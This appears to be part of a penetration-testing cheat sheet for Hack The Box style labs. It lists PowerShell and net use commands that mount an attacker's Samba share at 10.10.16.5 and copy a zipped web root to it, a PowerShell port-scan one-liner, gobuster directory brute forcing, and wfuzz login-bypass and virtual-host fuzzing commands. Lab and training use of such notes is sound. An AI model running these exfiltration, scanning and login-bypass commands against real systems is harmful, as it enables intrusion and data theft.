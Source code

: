 Now we enable the samba share on Windows

```ps1
New-PSDrive kalishare -PSProvider FileSystem -Credential $cred -Root \\10.10.16.5\kalishare
```

Or

```ps1
net use \\10.10.16.5\kalishare /u:0x4rt3mis 123456
cp archive.zip \\10.10.16.5\kalishare
```

# Commands

Let's jump in.

## Powershell

Get the size of folders

```ps1
Get-ChildItem -Recurse 'C:\inetpub\wwwroot' | Measure-Object -Property Length -Sum
```

Zip Folder

```ps1
Compress-Archive -Path .\htdocs -DestinationPath archive.zip
```

Port Scan

```ps1
8080 | % {echo ((new-object Net.Sockets.TcpClient).Connect("ip",$_)) "Port $_ is open!"} 2>$null
```

## Gobuster

```sh
gobuster dir -u http://x.x.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
```

## Wfuzz

Login Bypass

```sh
wfuzz -z file,list.txt -d "username=adminFUZZ&password=admin" --hc 200 http://10.10.10.185/login.php
```

Vhost Fuzzing

```sh
wfuzz -u http://10.10.10.208 -H "Host: FUZZ.crossfit.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 10701
```
